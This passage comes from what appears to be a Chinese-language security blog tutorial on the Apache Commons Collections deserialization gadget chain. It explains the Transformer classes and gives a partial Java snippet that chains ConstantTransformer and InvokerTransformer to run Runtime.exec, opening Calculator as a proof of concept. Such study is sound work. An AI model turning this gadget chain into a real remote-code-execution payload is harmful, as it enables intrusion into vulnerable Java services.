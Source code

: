 运行结果 被修饰的map 会分别调用实现了`Transformer` 接口的 `Test、Test2`的`transformer`方法。 `transformer`参数为`key` 或者 `value`, 返回值也就是修饰之后的值

![image-20210204104542816](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210204104542816.png)





也就是说通过`Transformer` 修饰的map 在添加元素时可以调用任意`transformer`方法

之后只关注类的`transformer`方法 即可

#### ConstantTransformer

该类的`transformer` 方法可以将构造时的参数返回回来

![image-20210204111409121](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210204111409121.png)



效果

![image-20210204112116972](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210204112116972.png)

#### InvokerTransformer

就是通过反射执行一个方法

第一个参数时 方法名 ，第二个是方法的参数类型，第三个是方法具体的参数

还有input进来的类

![image-20210204111804099](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210204111804099.png)



可以用它来执行命令，无法直接利用，反序列化需要有触发点

![image-20210204112406579](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210204112406579.png)



#### ChainedTransformer

从名字上来看就是一个链，将多个`Transformer` 用过依次调用各自的`transform` 连接起来

![image-20210204112725310](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210204112725310.png)



```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class Index {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
```